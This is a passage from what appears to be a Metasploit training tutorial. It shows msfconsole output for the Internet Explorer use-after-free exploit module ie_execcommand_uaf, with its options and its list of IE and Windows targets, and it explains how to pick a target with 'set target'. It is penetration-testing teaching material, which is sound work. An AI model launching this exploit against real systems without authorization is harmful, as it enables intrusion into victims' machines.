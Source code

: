 Looking at the description, we can get a general idea of what this exploit will accomplish for us. Keeping this in mind, we would next want to check which versions are vulnerable to this exploit.

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > options

Module options (exploit/windows/browser/ie_execcommand_uaf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  false            no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7
```

We see options for both different versions of Internet Explorer and various Windows versions. Leaving the selection to `Automatic` will let msfconsole know that it needs to perform service detection on the given target before launching a successful attack.

If we, however, know what versions are running on our target, we can use the `set target <index no.>` command to pick a target from the list.

```shell-session
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7


msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
```